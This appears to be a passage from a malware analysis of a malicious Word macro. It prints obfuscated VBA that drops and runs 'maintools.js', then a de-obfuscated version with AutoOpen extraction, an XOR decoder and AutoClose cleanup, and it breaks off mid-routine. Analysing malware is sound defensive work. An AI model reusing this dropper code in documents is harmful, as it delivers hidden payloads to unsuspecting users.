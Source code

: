 ```vb
Dim K764B5Ph46Vh
K764B5Ph46Vh = FreeFile
OBKHLrC3vEDjVL = B8qen2T433Ds1bW & "\" & "maintools.js"
Open (OBKHLrC3vEDjVL) For Binary As #K764B5Ph46Vh
Put #K764B5Ph46Vh, 1, Wk4o3X7x1134j
Close #K764B5Ph46Vh
Erase Wk4o3X7x1134j
Set R66BpJMgxXBo2h = CreateObject("WScript.Shell")
R66BpJMgxXBo2h.Run """" + OBKHLrC3vEDjVL + """" + " EzZETcSXyKAdF_e5I2i1"
ActiveDocument.Save
Exit Sub
MnOWqnnpKXfRO:
Close #K764B5Ph46Vh
ActiveDocument.Save
End Sub
```

The code was very hard to read so I spent a considerable amount of time to de-obfuscate it and make it much more readable.

```vb
Attribute VB_Name = "Module1"
Public payload_path As String
Public payload_dir  As String
Function xor_decoder(data() As Byte, length As Long) As Boolean
    Dim key As Byte
    key = 45
    For i = 0 To length - 1
        data(i) = data(i) Xor key
        key = ((key Xor 99) Xor (i Mod 254))
    Next i
    xor_decoder = TRUE
End Function
Sub AutoClose()
    On Error Resume Next
    Kill payload_path
    On Error Resume Next
    Set fso = CreateObject("Scripting.FileSystemObject")
    fso.DeleteFile payload_dir & "\*.*", TRUE
    Set fso = Nothing
End Sub

Sub AutoOpen()
    On Error GoTo cleanup
    Dim file_handle_id
    Dim file_size   As Long
    Dim length      As Long
    file_size = FileLen(ActiveDocument.FullName)
    file_handle_id= FreeFile
    Open (ActiveDocument.FullName) For Binary As #file_handle_id
    Dim doc_bytes() As Byte
    ReDim doc_bytes(file_size)
    Get #file_handle_id, 1, doc_bytes
    Dim doc_text    As String
    doc_text = StrConv(doc_bytes, vbUnicode)
    Dim regex_match, regex_match_count
    Dim regex_obj
    Set regex_obj= CreateObject("vbscript.regexp")
    regex_obj.Pattern = "MxOH8pcrlepD3SRfF5ffVTy86Xe41L2qLnqTd5d5R7Iq87mWGES55fswgG84hIRdX74dlb1SiFOkR1Hh"
    Set regex_match_count = regex_obj.Execute(doc_text)
    Dim marker_index
    If regex_match_count.Count = 0 Then
        GoTo cleanup
```